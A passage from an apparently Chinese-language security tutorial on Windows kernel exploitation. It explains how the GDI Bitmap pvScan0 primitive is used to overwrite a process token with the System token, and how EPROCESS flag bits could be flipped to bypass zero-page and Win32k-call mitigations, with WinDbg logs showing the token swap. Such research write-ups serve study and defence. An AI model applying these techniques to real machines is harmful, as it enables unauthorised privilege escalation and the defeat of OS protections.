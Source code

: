 在Win10中，绝大多数的win32k.sys实现都在win32full里完成，这里利用M的pvScan0完成了对W的pvScan0值的修改，使之指向了当前进程的Token，接下来只需要调用GetBitmap/SetBitmap通过W的pvScan0，就可以完成对Token的读取和修改，从而完成提权。





```
kd&gt; !process 0 4 //获取System _EPROCESS结构
**** NT ACTIVE PROCESS DUMP ****
PROCESS ffffe28d0f662040
    SessionId: none  Cid: 0004    Peb: 00000000  ParentCid: 0000
    DirBase: 001aa000  ObjectTable: ffffa709c88032c0  HandleCount: &lt;Data Not Accessible&gt;
    Image: System
kd&gt; dq ffffe28d0f662040+358 L1 //得到System  Token值
ffffe28d`0f662398  ffffa709`c88158ad
kd&gt; p//调用setBitmap将这个值写入当前进程的地址
0033:00007ff7`9dd2217f 488bce          mov     rcx,rsi
kd&gt; g
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`9dd222b0 cc              int     3
kd&gt; !process //当前进程的_EPROCESS
PROCESS ffffe28d12cb2080
    SessionId: 1  Cid: 0b48    Peb: 0117d000  ParentCid: 1124
    DirBase: 320b6000  ObjectTable: ffffa709d5f84500  HandleCount: &lt;Data Not Accessible&gt;
    Image: Stop_by_win10.exe
kd&gt; dq ffffe28d12cb2080+358 L1 //利用SetBitmap替换后，当前进程Token变成了                          //System Token，提权完成
ffffe28d`12cb23d8  ffffa709`c88158ad
```

[![](https://p5.ssl.qhimg.com/t01eb9345f255ef4987.png)](https://p5.ssl.qhimg.com/t01eb9345f255ef4987.png)

    我和大家分享了pvScan0在Bitmap这种data attack中的核心地位，Bitmap的pkernelAddress的获取方法和如何通过pvScan0完成攻击，接下来，我将结合偶像MJ0011的PPT，来讲一下Win10的一些坑，以及回归Win8下来看一下MJ0011的PPT中介绍的一些防护机制，和Bitmap的威力。

 

**被Win10吊打的日子**

在MJ0011的PPT中介绍了几种防护机制，比如禁零页，禁Win32k调用，SMEP，ExPoolWithTagNX等等。本来刚开始想在Win10下进行实验，但是发现Win10下有很多奇怪的坑。这里简单提一下几种防护机制：

1、禁零页，NtAllocateVirtualMmemory是现在常用的内核漏洞利用手法，Win8 _EPROCESS增加了一比特的Flags.VdmAllowed，当为0时禁用，当为1时可用。

2、禁Win32k，Win32k存在很多漏洞，比如UAF，我在前面两个经典内核漏洞调试的分享中都是Win32k出的问题，这里通过_EPROCESS结构增加一比特的Flags2.DisallowWin32kSystemCalls禁用调用。

3、SMEP，在内核漏洞利用中，通常是利用内核态的一些失误执行用户态申请的空间存放的shellcode，这里直接通过SMEP禁止在内核态执行用户态空间的代码。这里，我将以禁Win32k调用和禁零页来做实验，利用的就是Bitmap来修改这两个比特的值，看看能不能绕过禁用机制，首先来看一下当前进程，以及对应的两个值。

```
kd&gt; !process
PROCESS ffffe28d12cb2080
    SessionId: 1  Cid: 0b48    Peb: 0117d000  ParentCid: 1124
    DirBase: 320b6000  ObjectTable: ffffa709d5f84500  HandleCount: &lt;Data Not Accessible&gt;
    Image: Stop_by_win10.exe
kd&gt; dt nt!_EPROCESS VdmAllowed ffffe28d12cb2080
   +0x304 VdmAllowed : 0y0//标志位为0，禁用零页
kd&gt; dt nt!_EPROCESS DisallowWin32kSystemCalls ffffe28d12cb2080
   +0x300 DisallowWin32kSystemCalls : 0y0//标志位为1，默认不禁用Win32k
kd&gt; dd ffffe28d12cb2080+300 L4 //查看一下Flags2和Flags的值
ffffe28d`12cb2380  0000d000 144d0c01 a1beb1e1 01d288e0
```
